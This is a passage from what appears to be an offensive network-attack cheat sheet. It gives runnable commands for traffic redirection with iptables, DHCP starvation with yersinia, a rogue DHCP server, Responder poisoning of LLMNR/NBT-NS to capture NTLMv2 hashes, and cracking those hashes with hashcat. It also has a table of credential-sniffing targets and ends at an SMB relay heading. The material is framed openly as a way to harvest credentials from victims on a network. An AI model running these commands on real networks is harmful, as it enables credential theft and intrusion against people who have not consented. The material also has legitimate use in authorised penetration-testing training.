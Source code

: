 ```bash
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

***

### XI. ⚙️ DHCP Starvation & Rogue Server

Exhaust DHCP pool to force clients onto attacker’s network.

```bash
yersinia dhcp -attack 1
```

Setup rogue DHCP:

```bash
sudo dhcpd -cf /etc/dhcp/dhcpd.conf at0
```

***

### XII. 🧠 Sniffing and Credential Harvesting

| Protocol        | Tool                  | Example             |
| --------------- | --------------------- | ------------------- |
| **HTTP**        | Wireshark / mitmproxy | `GET /login`        |
| **FTP**         | Wireshark / tcpdump   | Capture plain creds |
| **SMB**         | Responder             | NTLM hash relay     |
| **IMAP / POP3** | Wireshark             | Capture email creds |

***

### XIII. ⚙️ Responder & NTLM Relay Attacks

#### 🧩 Poison LLMNR/NBT-NS

```bash
sudo responder -I eth0 -wrf
```

Captured NTLMv2 hashes appear in:

```
/usr/share/responder/logs/
```

Crack with:

```bash
hashcat -m 5600 hash.txt rockyou.txt
```

***

### XIV. 💣 SMB Relay (Windows Targets)
